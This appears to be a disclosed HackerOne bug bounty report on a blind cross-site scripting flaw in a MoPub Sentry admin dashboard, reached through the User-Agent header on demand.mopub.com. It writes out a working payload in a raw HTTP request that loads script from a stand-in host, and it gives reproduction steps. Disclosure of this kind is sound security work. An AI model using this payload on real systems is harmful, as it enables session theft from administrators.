 # Blind XSS in Mobpub Marketplace Admin Production | Sentry via demand.mopub.com (User-Agent)

## Report Details
- **Report ID**: 275518
- **URL**: https://hackerone.com/reports/275518
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-10-08T15:56:22.379Z
- **Disclosed**: 2018-02-17T06:15:52.724Z

## Reporter
- **Username**: harisec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
**Summary:** 
I've identified a Blind XSS vulnerability that fires in the `Mobpub Marketplace Admin Production | Sentry` dashboard and can be triggered by sending a HTTPS request to an endpoint from the domain **demand.mopub.com**.

**Description:** 
I've sent the following HTTPS request to the following URL `https://demand.mopub.com/accounts/login/`

```
GET /accounts/login/ HTTP/1.1
Referer: 1
User-Agent: '>"></title></style></textarea></script><script/src=attacker.com/js></script>
X-Forwarded-For: 1
Host: demand.mopub.com
Accept-Encoding: gzip,deflate
Accept: */*
X-OrigHost: demand.mopub.com

```

Please note that the value of the `User-Agent` header is set to an **Blind XSS payload** (I've used `attacker.com/js` as an example but initially it was set to an script loaded from my test domain `thx.bz`.

Some time later after this initial request I've received two hits and the script from `thx.bz` was downloaded and executed. The script is configured to extract information from the browser context for demonstration purposes.

I've extracted the content of the browser DOM (attached to this report as **DOM.html**) and other interesting information:

**Dashboard Page URL**

`http://sentry-test.mopub.com/exchange-marketplace/marketplace-admin-production/`

**User IP Address**
`█████████`

**Title**
`Marketplace Admin Production | Sentry`

**User-Agent**
`█████████`

**Cookies**
`██████
`
 
**Execution Origin**
`http://sentry-test.mopub.com`

If you open the attachment **DOM.html** in a browser and search for `thx.bz` you will see that the value of the `User-Agent` is reflected inside a `<option>` tag without proper encoding and it was possible to escape the context and inject an additional `SCRIPT` tag.

The IP address that was used to visit the dashboard is `███████` and I've verified that it belongs to Twitter.

## Steps To Reproduce:

- Send the following HTTPS request (while replacing `attacker.com/js` with a domain/URL you control and where you can inspect the web server logs).

```
GET /accounts/login/ HTTP/1.1
Referer: 1
User-Agent: '>"></title></style></textarea></script><script/src=attacker.com/js></script>
X-Forwarded-For: 1
Host: demand.mopub.com
Accept-Encoding: gzip,deflate
Accept: */*
X-OrigHost: demand.mopub.com

```

- Login into `http://sentry-test.mopub.com/` using administrative credentials and visit the vulnerable URL 
`http://sentry-test.mopub.com/exchange-marketplace/marketplace-admin-production/`.

- At this point a script should be loaded from your domain (the one you've used instead of `attacker.com/js`).

## Impact: 

An attacker can gain access and execute arbitrary JavaScript code in the context of the administrative dashboard `Mobpub Marketplace Admin Production | Sentry`.

## Supporting Material/References:

  * List any additional material (e.g. screenshots, logs, etc.)

I've attached the contents of browser DOM where the Blind XSS triggered (`DOM.html`), more information about the execution context `bxss-report.html` and screenshots from the the browser DOM.



## Attachments
- bxss-admin-panel-screenshot-1.png
- bxss-admin-dom-injection-point.png
- bxss-admin-panel-screenshot-2.png
- DOM.html
